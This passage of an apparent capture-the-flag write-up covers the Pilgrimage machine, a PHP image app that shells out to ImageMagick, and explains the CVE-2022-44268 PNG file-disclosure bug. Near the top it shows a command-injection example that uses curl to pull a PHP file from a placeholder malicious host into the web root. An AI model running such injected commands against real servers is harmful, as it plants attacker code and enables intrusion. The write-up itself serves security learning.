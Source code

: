 ```shell
/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/ && curl http://malicious-server.com/file.php -o /var/www/pilgrimage.htb/secret.php # ...
```

This would be interesting, but the app doesn't use the `setName` and, therefore, the file name **does not have any influence** on the command executed.

##### A Unexpected Exit

And now? How can we manage to exploit this code?

This went unnoticed at first glance, but take a new look on the `exec`: 

```php
exec("/var/www/pilgrimage.htb/magick convert ... ");
```

From where it's called, for God's sake? Our directory! This binary is on the same folder as the web app and, therefore, accessible to us. 

Let's take a look at it:

```shell
$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
```

Searching up for this version, we've find about a File Disclosure vulnerability (CVE-2022-44268) when parsing `.png` files:

> "[...] ImageMagick will interpret the text string as a filename and will load the content as a raw profile, then the attacker can download the resized image which will come with the content of a remote file."[^3]

Sounds like Greek for you? No worries, let's understand the and exploit this vulnerability, step-by-step. If you just want a PoC, check [here](https://github.com/entr0pie/CVE-2022-44268) .[^4]

## Exploitation

### PNG, Imagemagick and Chunks

Firstly, Imagemagick tries to read and parse a PNG. This type of image can contain various chunks, which is a self-contained block of data that holds specific information within the file. It acts as a modular unit, containing different types of data such as image pixels, metadata, or textual information.

A text chunk, specifically, is a type of chunk that stores human-readable text data. In PNG, tEXt is used to embed textual information related to the image, such as descriptions, titles, author information, or copyright notices. It consists of a **keyword** that identifies the type of information and a corresponding text string that holds the actual textual content. Multiple tEXt chunks can be included in a PNG image.

Here's the deal: when handling the **profile** keyword, Imagemagick misunderstand it's value as a filename and import it to the resized file (as a raw profile) in hex. 

To exploit it, let's create a Python script to embed our chunk on the image:


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/